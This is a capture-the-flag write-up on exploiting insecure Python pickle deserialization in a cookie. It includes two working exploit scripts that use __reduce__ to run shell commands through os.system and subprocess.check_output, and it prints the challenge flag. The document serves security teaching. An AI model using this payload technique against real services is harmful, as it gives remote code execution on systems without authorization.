







>[!quote]
> Look Morty, look! I turned myself into a website Morty, I'm Website Rick babyyy!! But don't play around with some of them anti pickle serum I have stored somewhere safe, if I turn back to a human I'll have to go to family therapy and we don't want that Morty.
> 


# Set up

-

# Information Gathering

Running the instance of the challenge it is possible to browse to the Website Rick home page, where it is possible to read:



Don't play around with this serum morty!! and then the info `<__main__.anti_pickle_serum object at 0x7f88f526cf90>`

As also suggested by the title of the page, this challenge focuses on an insecure deserialization vulnerability.

Intercepting with Burpsuite the request sent to the server, it is possible to notice that the client sends a strange cookie, called plan_b. Decoding the cookie I can read some weird instruction like **main** or **builtin** object that suggest me something related to python, as also confirmed by the Server fingerprint.



At the moment I can already assume that playing around with the cookie probably will lead to some kind of code execution or file inclusion, however I don't know yet in what way.

Because the word "pickle" appears multiple times, I started documenting about what it is, discovering that pickle is a Python module used to serialize and deserialize objects. As also said within the official documentation, pickle is not secure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Ok, so plan_b is a cookie used to pass pickled serialized data to the server.



From what I just read from the documentation it is possible to send a malicious cookie in order to force the server to deserialize it and execute arbitrary code. But in which way?

The documentation shows different methods that can be used to manage pickle data, as well as another module, called pickletools, that can be used to disassemble pickled object. In order to better understand what is passed to the server, I wrote a small python script that decompile and optimize the plan_b cookie. The decompiled pickle is not very helpful, however it allows to understand that the server is expecting an anti_pickle_serum class object (as also suggested by the home page).



Ok, I've no idea on what to do next, so let's search online for any good article explaining this pickle vulnerability. One of the first results is this blog post from David's personal site [1] where it explains how to exploit a pickle deserialization vulnerability using the `reduce()` function.

The **reduce**() method takes no argument and shall return either a string or a tuple. The semantics of each item are in order:

A callable object that will be called to create the initial version of the object.

A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument.

So by implementing **reduce**() in a class, I can give the pickling process a callable and some other arguments to run. Potentially I can execute `os.system()` and some commands, as also shown by the David's PoC.

Based on its code I wrote a test exploit which implement the **reduce**() method and execute 'ls'. I gave to the class the same name used by the original pickle and I generated the serialized string. Mmm... Looking at the decompiled code it seems too different from the previous one, however let's see if the exploit work. Let me copy the string and paste it within the plan_b cookie. Crap, Internal Server Error. Probably the two objects differs too much.

After some trial and error I figured out how to generate almost the same serialized object. The script simply defines a void constructor and then generates the corresponding pickle. The two however are still different.



# Exploitation

Looking at the meaning of the decompiled SETITEM opcode I found out that it add a pair of Key-Value to an existing dictionary, meaning that my custom object must be pickled inside a dictionary in order to be equal the original one. Good! The two object are now the same, I have successfully reversed the original pickle and I'm able to generate valid serialized objects. Let's try to implement the **reduce**() method within this class and see if it works now that the result is the same of the original.

It works! Although it didn't show the result of the executed command, the server did not throw an Internal Server Error, instead it printed a "0" which is the value returned by the command - exit code -.



As said by this user on StackExchange "os.system() just run the process, it doesn't capture the output". In order to obtain the output of the command it is necessary to use a different function, like subprocess.check_output()

Ok, let's implement the new function.

Damn, it is better if I re-read the documentation... Right, I must return a tuple containing the function to call and a tuple of arguments. Maybe we are done. <500 Server Error> Oh my gosh!

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os

class anti_pickle_serum:
	def __init__(self):
		pass

	def __reduce__(self):
		return os.system, ("ls",)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
print(f'\n\nPayload: {payload}\n')
```



Wait, this should be correct! Maybe python3 and python2 behave differently when generating the serialized object? The server uses python2 so let's try with that version. Here we go! I have successfully executed the ls command. Now let's update the script and obtain the flag!

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['cat', 'flag_wIp1b']
		#return os.system, (cmd,)
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
#print "Payload: "+payload
print(payload)
```

Good job Morty, now I have to go to family therapy

# Flag

>[!success]
>`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`

# Video Writeup

<iframe width="660" height="415" src="https://www.youtube.com/embed/TPAhM6W2Zaw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

